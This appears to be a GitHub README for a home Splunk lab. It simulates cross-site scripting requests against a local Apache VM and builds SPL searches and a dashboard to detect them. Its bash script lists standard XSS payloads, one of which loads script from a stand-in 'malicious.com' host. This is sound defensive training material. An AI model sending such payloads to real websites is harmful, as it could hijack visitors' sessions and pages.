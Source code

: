 # Splunk SOC Lab: Day 6 - Detecting Cross-Site Scripting (XSS) Attacks

## Overview
This repository documents Day 6 of a two-week Splunk lab series. The lab focuses on simulating and detecting XSS attacks on an Apache web server using Splunk, with visualization in the "SOC Web Monitoring" dashboard. The setup uses Splunk Enterprise on Windows and a Splunk Universal Forwarder on an Ubuntu Desktop VM with Apache.

## Objectives
- Simulate XSS attacks on an Apache web server.
- Detect attacks using Splunk searches.
- Update the "SOC Web Monitoring" dashboard with visualization.

## Environment
- **Host**: Windows laptop with Splunk Enterprise 
- **VM**: Ubuntu Desktop (VirtualBox) with Splunk Universal Forwarder and Apache.
- **Tools**: Splunk, Apache, `curl`.

## Prerequisites
- Splunk Enterprise installed on Windows.
- Splunk Universal Forwarder and Apache installed on Ubuntu Desktop VM.
- VirtualBox with host-only network adapter configured.

## Lab Steps
1. **Simulate XSS Attacks**:
   - On Ubuntu VM, create and run `simulate_xss_attack.sh`:
     ```bash
     #!/bin/bash
     logfile="/tmp/xss_attack_log.txt"
     echo "Starting XSS simulation at $(date)" > "$logfile"
     payloads=(
       "/?q=<script>alert('xss')</script>"
       "/?search=<img src=x onerror=alert('xss')>"
       "/?input=<script src='http://malicious.com/xss.js'></script>"
       "/?id=1 onload=alert('xss')"
       "/?param=<svg onload=alert('xss')>"
     )
     for i in {1..100}; do
       url="http://127.0.0.1:80${payloads[$((RANDOM % ${#payloads[@]}))]}"
       response=$(curl -s -o /dev/null -w "%{http_code}" "$url")
       echo "[$(date)] URL: $url | Status: $response" >> "$logfile"
       sleep 0.05
     done
     echo "Simulation complete. Check $logfile for details." >> "$logfile"
     ```
   - Run: `chmod +x simulate_xss_attack.sh; ./simulate_xss_attack.sh`.
   - Check: `cat /tmp/xss_attack_log.txt`.

2. **Create Splunk Search**:
   - In Splunk > **Search & Reporting**, run:
     ```spl
     index=main sourcetype=access_combined uri="*<script>*" OR uri="*<img*onerror=*" OR uri="*.js*" | table _time, clientip, uri, status | eval attack_type="XSS"
     ```
   - Save As > Report: "XSS Attempts".

3. **Update Dashboard**:
   - In **Dashboards** > "SOC Web Monitoring" > **Edit**:
     - Add Panel > From Report > "XSS Attempts".
     - Set Title: "XSS Attempts", Time Range: Last 15 minutes.
     - Save.

4. **Analyze Logs**:
   - Run:
     ```spl
     index=main sourcetype=access_combined uri="*<script>*" OR uri="*<img*onerror=*" OR uri="*.js*" | stats count by clientip, uri | sort -count
     ```
   - Save As > Report: "XSS Analysis" (Table).

## Results
- Successfully detected XSS attack patterns in Apache logs.
- Updated the "SOC Web Monitoring" dashboard to include XSS monitoring.
- Analyzed top client IPs and payloads for attack trends.

## Screenshots
- **XSS Search Results**:
  ![XSS Search](search.png)
- **Updated Dashboard**:
  ![Dashboard](attempts.png)
- **Log Analysis**:
  ![Log Analysis](analysis.png)
